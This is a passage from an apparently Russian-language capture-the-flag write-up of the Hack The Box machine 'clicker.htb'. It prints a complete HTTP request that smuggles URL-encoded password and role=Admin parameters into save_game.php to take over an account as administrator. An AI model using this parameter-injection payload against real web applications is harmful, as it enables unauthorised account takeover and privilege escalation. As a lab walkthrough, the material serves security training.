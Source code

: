 # Exploitation

Пробуем создать пейлоад для повышения привилегий до админа данного сайта и после долгих попыток, кодирования в urlencode получаем работающий пейлоад:
первым пейлоадом мы сумели поменять пароль, но почему-то роль не изменялась, поэтому вот таким пейлоадом как ниже получилось и изменить пароль, сформировав хеш sha256 и протолкнув role=Admin

```sh
GET /save_game.php?clicks=7&level=1&password%3d%27ef92b778bafe771e89245b89ecbc08a44a4e166c06659911881f383d4473e94f%27%2crole=Admin HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://clicker.htb/play.php
Cookie: PHPSESSID=1eu61mgc7vb29k0itll808e09g
Upgrade-Insecure-Requests: 1

```

Пробуем разлогиниться и попытаемся снова войти. Да, мы администратор и появился доступ к **admin.php**

![plot](./screens/admin.png)

